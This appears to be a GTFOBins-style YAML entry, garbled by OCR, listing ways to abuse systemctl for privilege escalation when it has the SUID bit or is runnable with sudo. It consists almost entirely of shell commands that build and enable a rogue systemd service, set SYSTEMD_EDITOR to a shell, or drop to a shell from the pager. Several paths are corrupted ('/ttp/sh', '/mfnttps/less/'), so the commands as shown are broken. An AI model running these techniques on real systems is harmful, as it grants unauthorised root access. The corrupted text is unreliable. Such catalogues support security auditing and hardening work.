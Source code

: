```yaml
---
functions:
  suid:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/ttp/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo /ttp/sh >$TF
        chmod +x $TF
        sudo SYSTEMD_EDITOR=$TF systemctl edit system.slice
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/ttp/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
    - description: This invokes the default pager, which is likely to be [`less`](/mfnttps/less/), other functions may apply.
      code: |
        sudo systemctl
        !sh
---
```

